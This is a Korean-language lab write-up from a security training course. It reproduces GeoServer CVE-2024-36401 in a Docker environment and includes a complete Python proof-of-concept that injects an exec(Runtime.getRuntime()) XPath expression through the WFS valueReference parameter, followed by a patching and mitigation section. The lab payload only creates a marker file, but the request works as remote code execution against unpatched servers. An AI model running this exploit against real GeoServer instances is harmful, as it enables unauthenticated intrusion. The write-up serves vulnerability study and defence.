



# GeoServer CVE-2024-36401 취약점 재현

> 화이트햇스쿨 4기 25반 김여진_7038

## 1. 취약점 개요

| 항목 | 내용 |
|---|---|
| CVE | CVE-2024-36401 |
| 대상 프로그램 | GeoServer |
| 실습 버전 | GeoServer 2.23.2 |
| 취약점 종류 | Expression Injection / Remote Code Execution |
| CWE | CWE-95 |
| 인증 필요 여부 | 필요 없음 |
| CVSS v3.1 | 9.8 Critical |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |

CVE-2024-36401은 GeoServer가 OGC 요청에 포함된 속성 이름을 안전하지 않게 처리하여 발생하는 원격 코드 실행 취약점이다.

GeoServer는 지도와 공간정보 데이터를 WMS, WFS 등의 표준 방식으로 제공한다. 이 중 WFS의 `GetPropertyValue` 요청은 지도 데이터에서 특정 속성값을 조회할 때 사용한다.

예를 들어 지도 데이터에서 `name`이라는 속성을 조회하려면 다음과 같이 요청할 수 있다.

```text
valueReference=name
```

`valueReference`에는 원래 조회할 속성 이름이 들어가야 한다.

하지만 취약한 GeoServer는 이 값을 단순한 속성 이름으로만 처리하지 않고, `commons-jxpath` 라이브러리를 이용해 XPath 표현식으로 평가했다.

XPath는 XML 형식의 데이터에서 원하는 항목을 찾기 위한 경로 표현식이다. 예를 들어 다음 XML에서 도시 이름을 찾을 때 `/city/name`과 같은 경로를 사용할 수 있다.

```xml
<city>
    <name>Seoul</name>
</city>
```

XPath 자체는 정상적인 기술이지만, 이번 취약점에서는 공격자가 입력한 표현식에 포함된 함수 호출까지 실행될 수 있다는 점이 문제가 되었다.

정상 입력과 공격 입력을 비교하면 다음과 같다.

```text
정상 입력: valueReference=name
공격 입력: valueReference=exec(...)
```

공격자가 `valueReference`에 Java 함수 호출 표현식을 넣으면 GeoServer 서버에서 운영체제 명령이 실행될 수 있다.

이번 실습에서는 실제 시스템에 피해를 주는 명령 대신 다음 빈 파일을 생성하여 명령 실행 여부를 확인했다.

```text
/shared/cve-2024-36401-success
```

---

## 2. 영향받는 버전

공식 보안 권고에 따르면 다음 버전이 영향을 받는다.

- GeoServer 2.22.6 미만
- GeoServer 2.23.0 이상 2.23.6 미만
- GeoServer 2.24.0 이상 2.24.4 미만
- GeoServer 2.25.0 이상 2.25.2 미만

이번 환경에서는 취약한 버전인 **GeoServer 2.23.2**를 사용했다.

---

## 3. 실습 환경

| 항목 | 내용 |
|---|---|
| 실행 환경 | Windows + WSL2 |
| Docker | Docker version 29.5.3, build d1c06ef |
| Docker Compose | Docker Compose version v5.1.4 |
| Java 이미지 | `eclipse-temurin:17-jre-jammy` |
| GeoServer | 2.23.2 |
| PoC 이미지 | `python:3.12.4-slim-bookworm` |
| 접속 포트 | `8080` |
| 접속 주소 | `http://localhost:8080/geoserver` |

Vulhub에서 제공하는 완성된 GeoServer 취약 이미지를 그대로 실행하지 않고, 공식 Java 베이스 이미지에서 GeoServer 2.23.2 배포 파일을 내려받아 직접 이미지를 빌드하도록 구성했다.

PoC도 별도의 Python 컨테이너에서 실행된다. 따라서 호스트 컴퓨터에 Python이나 추가 Python 패키지를 설치하지 않아도 된다.

GeoServer와 PoC 컨테이너는 Docker의 공유 볼륨을 통해 `/shared` 디렉터리를 함께 사용한다.

GeoServer에서 명령이 실행되어 `/shared`에 마커 파일이 생성되면, PoC 컨테이너가 같은 경로에서 파일 존재 여부를 검사한다.

---

## 4. 파일 구조

```text
CVE-2024-36401/
├── Dockerfile
├── docker-compose.yml
├── README.md
├── images/
│   ├── 01-geoserver-version.png
│   ├── 02-poc-success.png
│   └── 03-marker-created.png
└── poc/
    ├── Dockerfile
    └── poc.py
```

각 파일의 역할은 다음과 같다.

| 파일 | 설명 |
|---|---|
| `Dockerfile` | GeoServer 2.23.2 이미지를 빌드한다. |
| `docker-compose.yml` | GeoServer와 PoC 컨테이너를 함께 실행한다. |
| `poc/Dockerfile` | PoC 실행에 사용할 Python 환경을 만든다. |
| `poc/poc.py` | 취약점 요청을 보내고 마커 파일 생성 여부를 확인한다. |
| `images/` | 실행 결과 스크린샷이 저장되어 있다. |

---

## 5. 취약 조건

다음 조건에서 취약점이 발생할 수 있다.

1. 패치되지 않은 GeoServer 버전을 사용한다.
2. 공격자가 GeoServer의 OGC 서비스에 네트워크로 접근할 수 있다.
3. WFS, WMS, WPS 등의 요청을 사용할 수 있다.
4. 조작된 속성 이름 또는 `valueReference` 값이 서버에서 평가된다.
5. 요청을 전송하는 데 별도의 인증이 필요하지 않다.

이번 실습에서는 WFS의 `GetPropertyValue` 요청과 `valueReference` 파라미터를 이용했다.

---

## 6. 실행 방법

### 실행 전 확인

- Docker 또는 Docker Desktop이 실행 중이어야 한다.
- 호스트의 8080번 포트가 비어 있어야 한다.
- 모든 명령은 `CVE-2024-36401` 폴더에서 실행한다.

### 취약 환경과 PoC 실행

```bash
docker compose up --build
```

위 명령 하나를 실행하면 다음 과정이 자동으로 진행된다.

```text
GeoServer 이미지 빌드
→ GeoServer 2.23.2 실행
→ Health Check를 통해 GeoServer 실행 상태 확인
→ PoC 컨테이너 실행
→ 취약점 요청 전송
→ 마커 파일 생성 여부 확인
→ 성공 또는 실패 출력
```

정상적으로 재현되면 다음과 같은 결과가 출력된다.

```text
[+] CVE-2024-36401 재현 성공
[+] GeoServer 컨테이너 내부에서 명령이 실행되었습니다.
[+] 생성된 파일: /shared/cve-2024-36401-success
```

PoC 결과를 확인한 후 `Ctrl+C`를 눌러 실행 화면을 종료할 수 있다.

### 환경 종료 및 초기화

```bash
docker compose down -v
```

`-v` 옵션을 사용하면 컨테이너와 네트워크뿐만 아니라 마커 파일이 저장된 볼륨도 함께 삭제된다.

이전 실행에서 생성된 파일이 남아 다음 실행에서 성공한 것처럼 잘못 판단되는 것을 방지하기 위해 볼륨까지 삭제한다.

---

## 7. PoC 코드

전체 PoC 코드는 [`poc/poc.py`](poc/poc.py)에 작성했다.

```python
import os
import sys
import time
import urllib.error
import urllib.parse
import urllib.request


TARGET_URL = os.getenv(
    "TARGET_URL",
    "http://geoserver:8080/geoserver",
).rstrip("/")

MARKER_PATH = os.getenv(
    "MARKER_PATH",
    "/shared/cve-2024-36401-success",
)


def send_poc() -> None:
    """GeoServer에 마커 파일 생성 명령이 포함된 요청을 보낸다."""

    payload = (
        "exec(java.lang.Runtime.getRuntime(),"
        f"'touch {MARKER_PATH}')"
    )

    parameters = {
        "service": "WFS",
        "version": "2.0.0",
        "request": "GetPropertyValue",
        "typeNames": "sf:archsites",
        "valueReference": payload,
    }

    query = urllib.parse.urlencode(parameters)
    poc_url = f"{TARGET_URL}/wfs?{query}"

    print("[*] CVE-2024-36401 PoC를 실행합니다.")
    print(f"[*] 대상: {TARGET_URL}")
    print(f"[*] 확인 파일: {MARKER_PATH}")

    try:
        with urllib.request.urlopen(poc_url, timeout=20) as response:
            print(f"[*] HTTP 응답 코드: {response.status}")
            response.read()

    except urllib.error.HTTPError as error:
        print(f"[*] HTTP 응답 코드: {error.code}")
        print(
            "[*] GeoServer가 오류 응답을 반환했지만 "
            "파일 생성 여부를 확인합니다."
        )
        error.read()

    except urllib.error.URLError as error:
        print(f"[-] 대상 서버에 연결하지 못했습니다: {error}")
        sys.exit(1)


def verify_marker() -> bool:
    """공유 폴더에 마커 파일이 생성되었는지 확인한다."""

    for _ in range(20):
        if os.path.exists(MARKER_PATH):
            return True
        time.sleep(0.5)

    return False


def main() -> None:
    # 이전 실행의 마커 파일이 남아 있으면 먼저 삭제한다.
    if os.path.exists(MARKER_PATH):
        os.remove(MARKER_PATH)
        print("[*] 이전 실행의 확인 파일을 삭제했습니다.")

    send_poc()

    if verify_marker():
        print()
        print("[+] CVE-2024-36401 재현 성공")
        print("[+] GeoServer 컨테이너 내부에서 명령이 실행되었습니다.")
        print(f"[+] 생성된 파일: {MARKER_PATH}")
        sys.exit(0)

    print()
    print("[-] CVE-2024-36401 재현 실패")
    print("[-] 확인 파일이 생성되지 않았습니다.")
    sys.exit(1)


if __name__ == "__main__":
    main()
```

### PoC 동작 원리

PoC는 GeoServer의 WFS 주소로 다음과 같은 요청을 보낸다.

```text
service=WFS
version=2.0.0
request=GetPropertyValue
typeNames=sf:archsites
valueReference=조작된 XPath 표현식
```

PoC에서 사용한 핵심 표현식은 다음과 같다.

```text
exec(java.lang.Runtime.getRuntime(),'touch /shared/cve-2024-36401-success')
```

각 부분의 의미는 다음과 같다.

- `java.lang.Runtime.getRuntime()`: 현재 Java 프로그램에서 운영체제 명령을 실행할 수 있는 객체를 가져온다.
- `exec(...)`: 운영체제 명령을 실행한다.
- `touch /shared/cve-2024-36401-success`: 확인용 빈 파일을 생성한다.

전체 과정은 다음과 같다.

```text
PoC 컨테이너가 조작된 valueReference를 전송
→ GeoServer가 해당 값을 XPath 표현식으로 평가
→ Java Runtime.exec() 호출
→ GeoServer 컨테이너에서 touch 명령 실행
→ /shared 경로에 마커 파일 생성
→ PoC 컨테이너가 마커 파일 존재 여부 확인
```

GeoServer는 요청을 처리한 뒤 HTTP 400 오류를 반환할 수 있다.

이는 명령이 실행되지 않았다는 뜻이 아니다. `Runtime.exec()`가 실행된 뒤 반환된 객체를 GeoServer가 지도 데이터의 속성 정보로 처리하려다가 형 변환 오류가 발생할 수 있기 때문이다.

따라서 이번 PoC에서는 HTTP 응답 코드만으로 성공 여부를 판단하지 않고, 실제 마커 파일이 생성되었는지를 확인했다.

---

## 8. 실행 결과

### 8.1 GeoServer 버전 확인

GeoServer 페이지 하단에서 실습에 사용한 버전이 `2.23.2`인 것을 확인했다.



### 8.2 PoC 실행 결과

PoC 실행 결과 HTTP 400 응답이 반환되었지만, 마커 파일이 생성되어 GeoServer 컨테이너 안에서 명령이 실행된 것을 확인했다.



### 8.3 마커 파일 확인

다음 명령으로 GeoServer 컨테이너 안에 마커 파일이 생성되었는지 직접 확인했다.

```bash
docker compose exec geoserver ls -l /shared/cve-2024-36401-success
```



출력 결과 `/shared/cve-2024-36401-success` 파일이 존재했다.

이를 통해 외부에서 전송한 HTTP 요청으로 GeoServer 컨테이너 내부의 운영체제 명령이 실행되었음을 확인했다.

이번 실습에서 확인한 범위는 GeoServer 컨테이너 내부의 명령 실행이다. 컨테이너 탈출이나 호스트 운영체제 장악을 재현한 것은 아니다.

---

## 9. 취약점의 영향

공격에 성공하면 공격자는 GeoServer 프로세스의 권한으로 서버에서 임의의 명령을 실행할 수 있다.

이에 따라 다음과 같은 피해가 발생할 수 있다.

- 서버에 저장된 파일과 환경 정보 열람
- 지도 데이터와 설정 파일 수정 또는 삭제
- 악성 파일 다운로드 및 실행
- GeoServer 서비스 중단
- 같은 서버에 존재하는 다른 자원에 대한 추가 공격

이 취약점은 네트워크를 통해 원격으로 공격할 수 있고, 로그인이나 사용자 동작도 필요하지 않다.

공식 CVSS v3.1 점수는 `9.8점`으로, 위험도는 Critical 등급이다.

---

## 10. 대응 방안

### 10.1 안전한 버전으로 업데이트

가장 확실한 대응 방법은 취약점이 수정된 버전 이상으로 업데이트하는 것이다.

- GeoServer 2.22.6
- GeoServer 2.23.6
- GeoServer 2.24.4
- GeoServer 2.25.2

이번 실습에서 사용한 GeoServer 2.23.2는 취약한 버전이므로 실제 운영 환경에서는 사용하면 안 된다.

가능하면 최소 수정 버전만 사용하는 것보다 현재 지원되는 최신 GeoServer 버전으로 업데이트하는 것이 좋다.

### 10.2 공식 보안 패치 적용

전체 버전 업데이트가 바로 어려운 경우 GeoServer에서 제공하는 공식 보안 패치를 적용해야 한다.

공식 패치에 포함된 GeoTools 라이브러리로 기존 파일을 교체하여 임의 함수가 실행되는 것을 차단할 수 있다.

### 10.3 임시 조치

공식 권고에서는 `gt-complex` 관련 라이브러리를 제거하는 방법도 안내하고 있다.

다만 해당 라이브러리를 사용하는 GeoServer 확장 기능이 정상적으로 동작하지 않거나 서버 실행에 문제가 생길 수 있다.

따라서 이 방법은 정식 업데이트나 패치를 적용하기 전까지 사용하는 임시 조치로 보는 것이 적절하다.

### 10.4 접근 제한 및 모니터링

다음 조치를 함께 적용하면 공격 가능성을 줄일 수 있다.

- GeoServer를 외부 인터넷에 직접 노출하지 않는다.
- 방화벽이나 리버스 프록시를 통해 접근 가능한 IP를 제한한다.
- 사용하지 않는 WFS, WMS, WPS 기능은 비활성화하거나 접근을 제한한다.
- 비정상적인 `valueReference` 값과 함수 호출 표현식이 포함된 요청을 확인한다.
- GeoServer를 최소 권한을 가진 사용자로 실행한다.

접근 제한과 모니터링은 보조적인 방어 방법이며, 취약한 버전을 계속 사용해도 된다는 의미는 아니다. 근본적인 대응은 업데이트 또는 공식 패치 적용이다.

---

## 11. 참고 자료

- GeoServer Security Advisory  
  https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv

- GeoServer CVE-2024-36401 안내  
  https://geoserver.org/vulnerability/2024/09/12/cve-2024-36401.html

- Vulhub CVE-2024-36401 환경  
  https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401

- NVD CVE-2024-36401  
  https://nvd.nist.gov/vuln/detail/CVE-2024-36401